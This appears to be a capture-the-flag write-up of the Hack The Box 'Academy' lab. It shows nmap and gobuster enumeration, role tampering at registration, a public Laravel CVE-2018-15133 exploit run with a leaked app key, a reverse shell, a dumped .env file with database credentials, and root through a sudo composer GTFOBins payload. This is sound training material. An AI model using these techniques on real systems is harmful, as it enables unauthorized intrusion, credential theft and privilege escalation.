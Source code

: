 ```yaml
---
layout: post
title: HTB Academy
categories: [HTB, CF, OSCP]
---
```


Lets have a look into academy box. It was easy box with some really nice steps to get root of box

![](/images/academy/logo.png)

Lets start our enumeration with nmap

```bash
nmap -sC -sV -oA nmap/initial 10.10.10.215
# Nmap 7.91 scan initiated Fri Feb 26 23:42:58 2021 as: nmap -sC -sV -oA nmap/initial 10.10.10.215
Nmap scan report for 10.10.10.215
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 26 23:43:23 2021 -- 1 IP address (1 host up) scanned in 25.48 seconds
```

Also run full nmap scan to look for less common ports

```bash
nmap -p - -oA nmap/allports 10.10.10.215
# Nmap 7.91 scan initiated Fri Feb 26 23:43:43 2021 as: nmap -p - -oA nmap/allports 10.10.10.215
Nmap scan report for 10.10.10.215
Host is up (0.15s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
33060/tcp open  mysqlx

# Nmap done at Sat Feb 27 00:07:48 2021 -- 1 IP address (1 host up) scanned in 1444.62 seconds
```

3 ports are open:
* 22 for SSH
* 80 for HTTP
* 33060 for MySQLx

As I dont have any username and also not sure if any restriction is set on SSH i will move to port 80. From scan we can see that its redirecting to academy.htb. I set it up in /etc/hosts

```bash
cat /etc/hosts        
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.215    academy.htb
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Navigate to website and was welcome with this screen.

![](/images/academy/01-website.png)

I as don't have login information i decided to create account

![](/images/academy/02-login.png)

After successful registration i log into website.

![](/images/academy/03-in.png)

I start looking around looking for something interesting. All link was dead. I check burp suite for some clues and found out that during registration there is one more paramater that can be manipulated.

![](/images/academy/04-req.png)

Roleid? What happen if i will intercept this request and change value to 1? That could give me some additional access. When i logged with new account I had some access. 

I decide to run gobuster

```bash 
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -t 25 -o gobuster -u http://academy.htb

/images (Status: 301)
/login.php (Status: 200)
/register.php (Status: 200)
/index.php (Status: 200)
/admin.php (Status: 200)
/home.php (Status: 302)
/config.php (Status: 200)
```

I noticed admin.php site. Admin.php contain login form. Log in with user i created before. The one i change RoleId to 1

![](/images/academy/05-admin.png)

All issue or task was done except one. Fix issue with dev-staging-01.academy.htb. I adjust my /etc/hosts again and navigate to this site.

![](/images/academy/06-dev.png)

It was error code from Laravel site. As this show really interesting information about as mysql credentials and API keys. After ask my best friend google for some advice... he suggested to look into this page [exploit_laravel_cve-2018-15133](https://github.com/aljavier/exploit_laravel_cve-2018-15133). Release of this exploit was couple months ago and it only require API key. Clone repository and test it

```bash
python3 pwn_laravel.py http://dev-staging-01.academy.htb/ "dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
Linux academy 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
I had remote code execution on server. I search for netcat and server contain nc.openbsd version. I copied reverse shell from payloads all the things and got shell on box

```bash
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.215] 43500          
/bin/sh: 0: can't access tty; job control turned off
$ $ whoami                                         
www-data 
```

I start looking for clues. Try to log into mysql server but credentials i had from dev portal did not work. Start looking for credential from academy.htb. 

```bash
ww-data@academy:/var/www/html/academy$ cat .env
                                        
APP_NAME=Laravel     
APP_ENV=local                         
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false                                         
APP_URL=http://localhost
                                                           
LOG_CHANNEL=stack                                                                                                                
DB_CONNECTION=mysql
DB_HOST=127.0.0.1                                          
DB_PORT=3306                                    
DB_DATABASE=academy                                                                                                  
DB_USERNAME=dev                       
DB_PASSWORD=mySup3rP4s5w0rd!!                              
                                                                 
BROADCAST_DRIVER=log      
CACHE_DRIVER=file                     
SESSION_DRIVER=file                           
SESSION_LIFETIME=120             
QUEUE_DRIVER=sync   

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null                                       
REDIS_PORT=6379                                                         
```

There is different credentials. As common issue is sharing credentials I try log in as on of users. And it worked for user *cry0l1t3*. After poking around also noticed that user mrb3n have ability to run sudo. I run linpeas.sh again this server

Because user is in adm group which mean he can access /var/log files. And my linpeas give me this

```bash 
[+] Checking for TTY (sudo/su) passwords in audit logs      
/var/log/audit/audit.log.3:type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```

Data seem really interesting. Actually its HEX value. I open cyberchef and try to decode it. 

![](/images/academy07-user.png)

I got password for user mrb3n. As I know user can run sudo command i tried to get some quick win

```bash
mrb3n@academy:~$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:                        
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User mrb3n may run the following commands on academy:                   
    (ALL) /usr/bin/composer
```

Composer was included in [gtfobins](https://gtfobins.github.io/gtfobins/composer/)

Copy paste example from there and was welcome with root shell

```bash
mrb3n@academy:~$ TF=$(mktemp -d)
TF=$(mktemp -d)
mrb3n@academy:~$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
<":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
mrb3n@academy:~$ sudo composer --working-dir=$TF run-script x
sudo composer --working-dir=$TF run-script x
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# whoami
root
```

I hope you enjoy it reading it and learn something new...

